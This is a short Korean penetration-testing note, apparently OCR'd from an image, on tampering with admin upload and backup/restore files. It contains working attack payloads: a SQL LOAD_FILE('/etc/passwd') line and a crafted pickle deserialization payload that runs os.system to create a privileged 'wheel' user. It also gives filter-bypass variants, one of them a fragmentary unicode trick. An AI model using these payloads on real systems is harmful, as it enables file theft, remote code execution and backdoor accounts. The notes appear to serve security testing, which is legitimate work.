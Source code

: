 # Integrity Verification  
----------------------------------
관리자 페이지 내 편의성을 위한 한꺼번에 등록하거나  
특정 설정을 백업/복구하는 기능이 있을 경우  
해당 파일을 변조하여 서버 내 데이터 탈취 혹은 RCE 공격이 가능  
SELECT LOAD_FILE('/etc/passwd'); --  
(sql과 관련된 파일이 있을 경우)  
--------------------------------------------------------------------
pickle 역직렬화 공격
objects = [SafeObject(), BadObject()]  
첫 검사 로직 우회  

malicious_pickle_data = b'(cos\nsystem\nS"useradd -m -p $(openssl passwd -1 secui) secuiTestAccount && usermod -aG wheel secuiTestAccount"\no.  
문자열로 삽입

(U\2idios\nsystem\n.  
유니코드 삽입
